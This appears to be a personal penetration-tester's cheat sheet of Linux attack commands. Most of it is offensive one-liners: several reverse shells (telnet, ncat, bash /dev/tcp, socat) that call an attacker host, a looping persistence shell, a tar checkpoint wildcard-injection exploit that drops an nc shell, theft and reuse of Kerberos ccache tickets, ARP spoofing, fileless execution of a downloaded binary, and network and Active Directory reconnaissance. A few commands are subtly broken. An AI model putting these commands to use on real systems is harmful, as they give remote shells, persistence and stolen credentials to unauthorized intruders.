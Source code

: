 - Reverse shell one-liners:
	- Telnet:
		- `mkfifo /tmp/cth; sh -i 2>&1 </tmp/cth | telnet <atkIP> 8443 >/tmp/cth; rm /tmp/cth`
		- `(touch /dev/shm/cth; sleep 60; rm -f /dev/shm/cth) & tail -f /dev/shm/cth | sh -i 2>&1 | telnet <atkIP> <port> >/dev/shm/cth`
	- Encrypted
		- Ncat
			1. Listener: `ncat —ssl -nlvp 443`
			2. Connector: `ncat —ssl <listener ip> 443 -e /bin/bash`
	- Quick persistence
		- `while :; do setsid bash -i &>/dev/tcp/1.1.1.1/8443 0>&1; sleep 120; done &>/dev/null &`
- Find all files owned by a user in Linux, disregarding /proc and /sys files
	- `find / -user <username> -ls 2>/dev/null | grep -v '/proc\| /run\| /sys'`
- Log everything that happens in a terminal/tmux pane
	- `script <filename.log>`
- Download files
	- BASH only: `bash -c "cat < /dev/tcp/10.13.10.69/18110" > nmap`
	- Encrypted:
		- Encrypt: `openssl enc -aes-256-cbc -pbkdf2 -k strongPass <input.txt >input.txt.enc`
		- Decrypt: `openssl enc -d -aes-256-cbc -pbkdf2 -k strongPass <input.txt.enc >input.txt`
- TAR exploit:
	```BASH
	echo "mkfifo /tmp/lhennp; nc 192.168.1.102 8888 0</tmp/lhennp | /bin/sh >/tmp/lhennp 2>&1; rm /tmp/lhennp" > shell.sh
	echo "" > "--checkpoint-action=exec=sh shell.sh"
	echo "" > --checkpoint=1
	tar cf archive.tar *
	```
- Upgrade reverse shell
	- Using socat (upload static binary)
		- On target: ```socat file:`tty`,raw,echo=0 tcp-listen:4444```
		- On attacker: ```socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<attackerip>:4444```
- Extract Kerberos ccache files
	- ccache files for logged-in users are located in /tmp
		- `scp root@10.10.120.45:/tmp/krb5cc\_613405103\_HEquhW .`
	- Convert ccache file into .kirbi file using impacket
		- `impacket-ticketConverter krb5cc\_613405103\_HEquhW amitchell.kirbi`
	- kerberos_ticket_use to leverage the TGT
- View neighbor IPs (useful for docker containers)
	- `ip ne`
	- `"ip -br -c ne`
- Generate public RSA key from private
	- `ssh-keygen -y -e -f id_rsa`
- IPtables
	- `iptables -A INPUT -s <RHOST> -p tcp --dport <LPORT> -j ACCEPT`
		- Omit `-s` to open a port to connections from all origins
		- `--dport` can accept a range of ports as well as single ports
- ARP
	- See local ARP cache
		- `arp -n`
		- `arp -a -i <interface>`
	- arp-scan
	- ARP spoof/poisoning
		- `./arplayer spoof -I wlp1s0 -vvv -F -b 192.168.1.101 192.168.1.1`
	- ARP scan
		- `./arplayer scan -I wlp1s0 -w 10 -t 1000`
- Ping Sweep
	- `for i in `seq 1 255`; do ping -c 1 192.168.1.$i | tr \\n ' ' | awk '/1 received/ {print $2}'; done`
- SMB Service Discovery
	- `nbtscan –v –s : x.x.x.x/24 | cut -d “:“ –f 1 > smb-hosts.txt`
	- Check for SMB signing:
		- `smbclient --client-protection=off` and observe response
- Any Service Discovery
	- `for i in `seq 1 254`; do nc -zvw1 x.x.x.$i SERVICE_PORT 2>&1 | grep "Connected" | cut -d " " -f4 | cut -d ":" -f1 >> x-hosts.txt;done`
- NFS Shares
	- Display the NFS server's export list of mountable shares
		- `showmount -e <ip>`
	- List both the client hostname or IP address and mounted directory
		- `showmount -a <ip>`
	- Mount an NFS share located at IP to /mnt/nfs
		- `sudo mount -t nfs <ip>:<share name> /mnt/nfs`
- ss
	- Show listening ports like `netstat -anp tcp`
		- `ss -tulpn`
- Rename terminal
	```BASH
	#!bin/bash
	echo -ne "\033]0;${1}\007"
	```

- Using shar to pack files/tools for target:
	1. Pack files on attack machine: `shar *.exe *.kirbi >a.shar`
	2. Execute on target to extract: `chmod +x a.shar; ./a.shar`

- Propertly destroy file instead of just deleting:
	- `shred -z cthulhu.txt`

- Run files without touching disk
	- Python
		- `python3 -c 'import os; import urllib.request; d = urllib.request.urlopen("https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap?raw=true"); fd = os.memfd_create("foo"); os.write(fd, http://d.read()); p = f"/proc/self/fd/{fd}"; os.execve(p, [p, "-h"],{})'`
	- No python:
		- [Ippsec video on LOL](https://www.youtube.com/watch?v=MaBurwnrI4s)
- If you don't have `ifconfig` or `ip` and need to enumerate networking information (such as if you're in a Docker container):
	- View the local IP
		- `cat /proc/net/fib_trie`
	- View port data in hex:
		- `cat /proc/net/tcp`
- ldapsearch for Active Directory recon
	- `ldapsearch –x –h 10.0.0.1 –b “DC=contoso,DC=com”`
	- Look for OUs in the dump to get a sense for how domain is organized
	- Mount SYSVOL:
		- look in scripts folder for file shares mapped on user login
		- look at GPO that sets bookmarks and evaluate the bookmarks for internal hosts